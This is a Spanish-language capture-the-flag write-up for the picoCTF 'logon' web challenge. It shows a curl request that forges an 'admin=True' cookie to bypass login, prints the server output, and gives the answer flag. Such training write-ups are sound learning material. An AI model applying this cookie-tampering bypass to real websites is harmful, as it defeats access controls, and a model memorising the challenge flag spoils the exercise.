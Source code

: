# logon


## Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

## Pistas
- Hmm it doesn't seem to check anyone's password, except for Joe's?

## Solución

- Entramos a la pagina web:  [link](https://jupiter.challenges.picoctf.org/problem/13594/)
- Se obtiene la bandera atraves de Cookie
- Ingresamos en la consola el comando curl en seguida del url de la página web, un flag al final del url, en seguida de la la instrucción que queremos que haga la Cookie en este caso queremos que nos de acceso y se le da la intrucción True.
``` bash
<kmonshe-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   3979      0 --:--:-- --:--:-- --:--:--  3987
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
kmonshe-picoctf@webshell:~$ 
```
De esta manera se puede acceder a la pagina y encontrar la bandera.

## Bandera
picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}

## Notas adicionales
| Comando | Descripción |
|------ | -------------- |
| curl | es una herramienta de línea de comandos de Linux que sirve para transferir datos hacia o desde un servidor con URL, utilizando cualquiera de los protocolos soportados (HTTP, FTP, POP3, IMAP, SMTP, SCP, SFTP, TFTP, TELNET, LDAP…). |
|-H|encabezado|

La bandera se puede obtener de dos maneras, activando la  Cookies manualmente o por consola.

## Referencias
- [curl](https://www.hostgator.mx/blog/comando-curl-linux/)



